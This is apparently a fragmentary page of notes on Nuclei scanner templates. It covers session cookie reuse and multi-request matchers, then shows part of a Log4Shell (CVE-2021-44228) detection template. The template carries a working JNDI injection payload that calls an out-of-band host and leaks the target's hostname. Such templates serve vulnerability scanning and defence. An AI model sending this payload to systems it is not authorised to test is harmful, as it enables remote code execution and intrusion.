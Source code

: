 **Session**

---

#### ~~Dính google~~
**cookie-reuse:true** can be used when user want to maintain session beween series of request to finish the exploit chain and perform authenticated scans.
```
cookie-reuse: true
```
**Request Condition**

---

#### Dính google
When user want to check for condition between multiple requests in order to write complex checks. 
The matcher can be initialized by adding req-condition: true and numbers (most of the time are HTTP respons code) as suffix with respective attributes, status_code_1, status_code_3, andbody_2.


```
req-condition: true
    cookie-reuse: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code_1 == 302 && status_code_2 == 200 && status_code_3 == 200'
          - 'contains(body_2, "[zm_gallery id=")'
          - 'contains(body_2, "<th scope=\"row\" class=\"check-column\">")'
          - '!contains(body_3, "<th scope=\"row\" class=\"check-column\">")'
        condition: and
```

```
info:
  id: CVE-2021-44228
  name: Apache Log4j2 Remote Code Injection
  author: melbadry9,dhiyaneshDK,daffainfo,anon-artist,0xceba,Tea
  severity: critical
  description: Apache Log4j2 <=2.14.1 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.
  remediation: Upgrade to Log4j 2.3.1 (for Java 6), 2.12.3 (for Java 7), or 2.17.0 (for Java 8 and later).
  reference:
    - https://logging.apache.org/log4j/2.x/security.html
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228
    - https://github.com/advisories/GHSA-jfh8-c2jp-5v3q
    - https://www.lunasec.io/docs/blog/log4j-zero-day/
    - https://gist.github.com/bugbountynights/dde69038573db1c12705edb39f9a704a
  tags: cve,cve2021,rce,oast,log4j,injection
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10.00
    cve-id: CVE-2021-44228
    cwe-id: CWE-502

requests:
  - request:
      - |
        GET /?x=${jndi:ldap://${hostName}.uri.{{interactsh-url}}/a} HTTP/1.1
        Host: {{Hostname}}
      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
```